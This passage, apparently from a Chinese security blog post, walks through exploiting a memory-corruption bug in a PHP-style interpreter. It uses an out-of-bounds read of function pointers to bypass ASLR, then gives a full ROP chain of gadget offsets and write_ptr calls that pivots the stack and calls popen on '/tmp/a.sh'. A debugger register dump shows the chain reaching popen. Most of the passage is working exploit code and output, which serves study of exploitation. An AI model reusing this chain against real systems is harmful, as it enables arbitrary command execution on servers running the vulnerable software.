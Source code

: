 不要慌，我们还有更深的套路

![p5](http://drops.javaweb.org/uploads/images/1811956fcc24b92d01a35ff0054435cf3c494096.jpg)

刚才那个长度超长的数组对象，除了可以越界读堆块的地址，还可以越界读对象的**函数指针列表地址**

这个地址在同一个bin文件里的地址是相对固定的，地址随机化就这么过掉了。

```
$push_rax=0x000000000033a9f3+$aslr_offset;// push rax; stc; jmp qword ptr [rax + 0x36];
$pop_rsp=0x00000000000d3923+$aslr_offset;//pop rsp; pop r13; ret;
$sub_rsp=0x0000000000106abe+$aslr_offset;// sub rsp, -0x80; pop rbx; ret;
$pop_rsi=0x00000000000094e8+$aslr_offset;// pop rsi; ret;
$pop_rdi=0x00000000000d3b2f+$aslr_offset;// pop rdi; ret;
$pop_rbp=0x00000000000d3925+$aslr_offset;// pop rbp; ret;
$p_popen=0x00000000000d2580+$aslr_offset;//popen

//Set Handlers
write_ptr($s,$heap_addr_of_fake_handler,0x40);
//Set fake handler

write_ptr($s,$aslr_offset,0x300);
//heap_addr_of_fake_handler and [rax] is here!

write_ptr($s,0x4141414141414141,0x300+0x48);
write_ptr($s,0x0000000000000072,0x300+0x50);//"r"
write_ptr($s,0x732e612f706d742f,0x300+0x58);//"/tmp/a.sh"
write_ptr($s,0x0000000000000068,0x300+0x60);

write_ptr($s,$push_rax,0x300+0x10);
write_ptr($s,$pop_rsp,0x300+0x36);
write_ptr($s,$sub_rsp,0x300+0x8);
//now,rsp=rax+0x98
write_ptr($s,$pop_rsp,0x300+0x98);
write_ptr($s,$heap_addr_of_fake_handler-0x100,0x300+0xa0);
//now,rsp=rax-0xf0

write_ptr($s,$pop_rsi,0x300-0xf8);
write_ptr($s,$heap_addr_of_fake_handler+0x50,0x300-0xf0);
write_ptr($s,$pop_rdi,0x300-0xe8);
write_ptr($s,$heap_addr_of_fake_handler+0x58,0x300-0xe0);
write_ptr($s,$pop_rbp,0x300-0xd8);
write_ptr($s,$heap_addr_of_fake_handler-0xb8,0x300-0xd0);
//now rsp=rax-0xc0,rbp=rax-0xb8

write_ptr($s,$p_popen,0x300-0xc8);

```

很乱的rop里该有的都有了，包括把栈帧指向刚才操作好的内存堆，方便行事。

```
[----------------------------------registers-----------------------------------]
RAX: 0x7fc6edc6ebd8 --> 0x7fc6f218a000 --> 0x10102464c457f
RBX: 0x0
RCX: 0x16
RDX: 0xc4f352ef5bf0be4a
RSI: 0x7fc6edc6ec28 --> 0x72 ('r')
RDI: 0x7fc6edc6ec30 ("/tmp/a.sh")
RBP: 0x7fc6edc6eb20 --> 0x0
RSP: 0x7fc6edc6eb18 --> 0x0
RIP: 0x7fc6f52fa540 (<_IO_new_popen>:   push   r12)
R8 : 0x20 (' ')
R9 : 0x0
R10: 0x2
R11: 0x38 ('8')
```